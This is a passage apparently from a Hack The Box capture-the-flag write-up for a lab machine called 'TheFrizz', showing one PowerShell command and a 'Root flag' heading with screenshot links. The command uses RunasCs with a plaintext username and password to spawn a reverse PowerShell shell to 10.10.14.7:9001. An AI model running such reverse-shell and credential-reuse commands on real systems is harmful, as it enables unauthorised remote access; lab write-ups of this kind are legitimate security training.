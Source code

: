 ```powershell
.\RunasC.exe "M.SchoolBus" '!suBcig@MehTed!R' powershell.exe -r 10.10.14.7:9001
```

### Root flag

![alt text](/assets/img/posts/theFrizz-htb-s7/image-11.png)

![alt text](/assets/img/posts/theFrizz-htb-s7/image-12.png)

